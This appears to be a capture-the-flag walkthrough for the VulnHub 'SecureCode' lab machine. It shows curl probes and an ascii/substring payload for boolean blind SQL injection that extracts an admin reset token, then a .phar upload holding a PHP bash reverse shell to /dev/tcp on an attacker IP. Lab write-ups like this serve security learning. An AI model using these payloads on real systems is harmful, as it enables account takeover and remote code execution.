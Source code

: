 ## Secure Code - VulnHub

https://www.vulnhub.com/entry/securecode-1%2C651/

The machine consists on the following steps:
* Find Boolean Blind SQL Injection;
* Extract reset password token from admin;
* Upload file with .phar extension and get reverse shell.

OBS: you can find the source code on **/source_code.zip**.

<br>

### Blind SQL Injection
We see a lot of queries in the source code, all of them protected by mysqli_real_escape_string().

One of them do not protect the variable inside quotation marks. This happens on line 18 on **viewItem.php**.
```php
$data = mysqli_query($conn, "SELECT * FROM item WHERE id = $id");
```

This may be vulnerable to SQL Injection.

Based on the snippet above, we can discover that there is a difference in response between existing and not existing IDs.
```php
if(isset($result['id'])){
    http_response_code(404);
}
```

We can observe this difference with curl.
```
# This returns 404
curl -v 192.168.1.123/item/viewItem.php?id=1

# This returns 302
curl -v 192.168.1.123/item/viewItem.php?id=1000
```

We find that it's vulnerable to injection with this simple payloads:
```
curl -v 192.168.1.123/item/viewItem.php?id=5+OR+1=1 # Returns 404
curl -v 192.168.1.123/item/viewItem.php?id=5+OR+1=2 # Returns 302
```

We can test the database queries in: https://extendsclass.com/mysql-online.html.

We can filter admin results with:
```
select * from user where id = 1;
```

Testing query with known username:
```
select (select substring(username,1,1) from user where id=1) = 'a';
```

Inserting token in user to test:
```
UPDATE user SET token = 'tokenValue' WHERE id = 1;
select (select substring(token,1,1) from user where id=1) = 't';
```

We just need to adjust our query to use ascii, since we need to bypass mysqli_real_escape_string().
```
select (select ascii(substring(username,1,1)) from user where id=1) = 97;
```

And our final payload will be (remember to URL encode this):
```
4 AND (select ascii(substring(token,%s,1)) from user where id=1) = %s;
```

Now we can extract token and change the password, check line 75 of **resetPassword.php** to get the format:
```
/login/doResetPassword.php?token=cbDupvFbxzjodgW
```

<br>

### Reverse Shell via File Upload
On **newItem.php**, two checks are being made: check for extensions, but no for .phar and check for this mimes: mimes = array("image/jpeg", "image/png", "image/gif");

But on **editItem.php**, only the extension check is being done, so we can upload a .phar reverse shell file.
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.125/9000 0>&1'");?>
```

And access `http://192.168.1.123/item/image/shell.phar` to get the shell.
